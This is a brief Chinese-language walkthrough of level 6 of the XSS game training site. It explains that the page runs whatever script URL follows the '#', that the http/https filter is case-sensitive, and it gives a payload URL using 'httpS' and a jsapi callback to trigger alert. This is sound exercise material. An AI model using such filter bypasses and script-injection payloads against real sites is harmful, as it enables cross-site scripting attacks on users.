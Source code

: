 # Level-6

## 攻擊原理

#### 原始碼
- index.html

#### 手法:
- `#` 後的 URL 都會被執行
- 程式碼會用 url.match 檢查 http/https，但不是大小寫敏感！


## 攻擊方法
- 在 frame URL 中輸入

```
https://xss-game.appspot.com/level6/frame#httpS://www.google.com/jsapi?callback=alert
```

## 截圖

#### Request:
![image info](./00.png)

#### Response:
![image info](./01.png)
